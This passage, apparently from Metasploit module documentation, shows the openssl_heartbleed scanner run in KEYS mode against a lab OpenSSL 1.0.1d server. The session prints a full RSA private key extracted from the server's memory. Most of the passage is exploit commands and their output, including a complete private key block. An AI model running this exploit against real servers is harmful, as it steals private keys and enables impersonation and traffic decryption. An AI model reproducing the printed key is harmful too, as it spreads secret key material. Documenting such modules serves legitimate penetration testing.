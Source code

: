 In order to help elicit the keys, we can run the following code to help populate memory with
the keys:

```
watch 'cat openssl-1.0.1d/key.pem; cat openssl-1.0.1d/cert.pem'
```

```
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > set action KEYS
action => KEYS
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > run

[*] 222.222.2.222:44330   - Scanning for private keys
[*] 222.222.2.222:44330   - Getting public key constants...
[*] 222.222.2.222:44330   - 2019-10-13 01:32:17 UTC - Starting.
[*] 222.222.2.222:44330   - 2019-10-13 01:32:17 UTC - Attempt 0...
[+] 222.222.2.222:44330   - 2019-10-13 01:32:18 UTC - Got the private key
[*] 222.222.2.222:44330   - -----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA7ax3L0LRt5uZQTFOiJkX2xRn9ww/G87gMkMBAdeEzph7a2/i
C4stnajh9NsUbACv+dt8mtwgh0Vg4lMaI5iB9lXlqfsR17vIsW+/AZXj3Eo+B0QU
l8MpVilDvm3Hee0tE9NGLMR+Vk1Eq0UL+w7Gc/IswkFtj8XGMQ3Jc6OaJ6Ofh5hF
VlmyQBrtwvZ/20g5KtMbZFv1XX28bjEd47qfTo8nrnCsrjD7h7R42GrRw9hhvWse
sEa9VyTwQF0W8mxTYFx/7evXeJNVw1drmhJrxpGfb9gl8qzQgf6PQoi1LXaPAdk5
1cshKeGXmcA+1FR5HOdvWEqzCjMxApzdExNSgwIDAQABAoIBACmdYAT7ayL98JiU
nI6YV6/5Y7bDAy3ITEMgrkV3Sf6ufjWykl65ENShJGcuEOZUPHvALZIj5uIoiK04
JcSDyIWsRpk7p8UhUSOYUFZju1DwAupcxkpIVq2Kbh0itaGooJLvFEN0aDaOMu7W
GSHtVVwp1CJzOE7LL0eZhWNlCvHTgwwobaAUYEyrDmkOdWskMC3RGu5JrrfKTK+5
VUwMMAJ7Wf+d+xeTrNHwGGdEvHd23p1B1E3+axG0XqxI7wODz14iAWgd1zp2gSq2
Ji/II0E8Okwl3AR0d8SD0cJeEPHWlrr/6LzBUTHanDBGe2SXP/SMFSvyEpoPw/s8
vovI1okCgYEA8Ju7TuE4V2UQjZi8qcNAFnbxfcS9bk8S+BBKkgKtMY6wZT8h03fP
ouYot1IaRxMVlErrUeVtD/YKD+nhNFFYZGCSChjAhvf1rq/wzRILWpdGZ3SF9UuR
NlNpH1DcVZPOdTxCJ8DfjY72m/ugYysorQdmo9L58BhMKbfp9aHOR0cCgYEA/OCs
73xWEECKS7of0B+3CKriYT7fROu5wP9gFl3/FR8q7275TG2Iwg0rDz4NLGJhcVQ8
4bNAz+OglxqXkIVOf5Cuj8DibAw2JTr+MP5wQUaB0fPdwPcNw/fBq68x/+UpdcM2
B98b2uykN3Q2Zd2g3VVrKUOb4yJlE1EEvVrt8OUCgYEAq6oQe3jIn+Hla4D7qgs6
IE0AgwDpPliAaigFbCMoumDZjYL7eUrUA58+kXysbuU40jKZrjaIF4ktKKlvGcqn
zAXya+24/xLOYLH6lfU30Ix5mLpUEOy3UBE2wTcJ3Ky18oLpmD9NwEutuyBOEDLs
tHbBTkTqOdi8Dk+/RpcI+2UCgYEAj5qDeqiwMyCDqMd0w3sPNTPdxP2wSvJWlVww
0+LjNbpyZnAt0JIvZIuX1VsWngrsbTA6Nq3V83i/vK+UPLUHQ/gEuYv+yP8STIg4
y9fiJZ+Fn5YOa0OhJJVw/S9LhJc9uSt3Znbz2ZojE37CWYzHiom0hkVnpE/m+FY9
C880amUCgYAw8b+F3iBCEzioeUWW62c89yQaV0Ci/BQgvkhLsRRZr5hlt8+NWjSv
Nx2YT7eEcEIMOzOYF0zUH/gLo7UbZXGk/GlupqWP7kumwALz5Hu3gnx5+c69A0yL
FbawD4i1LZxrihOuuy3nt34hIlprjtW2WV49NiWnbwEzZo6ejm5NRg==
-----END RSA PRIVATE KEY-----

[*] 222.222.2.222:44330   - Private key stored in /root/.msf4/loot/20191012213218_default_222.222.2.222_openssl.heartble_250185.txt
[*] 222.222.2.222:44330   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### DUMP against s_server on Ubuntu 18.04 with OpenSSL 1.0.1d
